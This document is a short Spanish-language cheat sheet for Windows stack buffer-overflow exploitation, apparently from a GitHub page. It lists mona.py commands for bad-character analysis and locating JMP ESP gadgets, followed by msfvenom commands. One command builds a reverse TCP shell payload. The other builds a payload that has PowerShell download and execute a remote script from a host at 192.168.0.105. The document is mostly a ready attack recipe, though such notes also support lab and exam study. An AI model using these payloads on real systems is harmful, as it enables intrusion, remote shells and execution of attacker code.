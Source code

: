 ## MONA
#### Configurar carpeta de trabajo
```!mona -set workingfolder C:\Users\win7bits\Desktop\%p```
#### Generar badchars
```!mona bytearray -b "\x00"```   
```!mona bytearray -b "\x00\x07"```
#### Comparar haciendo referencia al bytearray que generó y la dirección a la que apunta ESP
```!mona compare -f C:\mona\appname\bytearray.bin -a <address>```
#### Encontrar el punto de salto
```!mona jmp -r esp -cpb \x07\x2e\xa0\x00"```
#### Encontrar un punto de salto
```!mona jmp -r esp -cpb "\x00"```

## SHELLCODE
#### cmd
```msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```
#### Powershell
```msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```

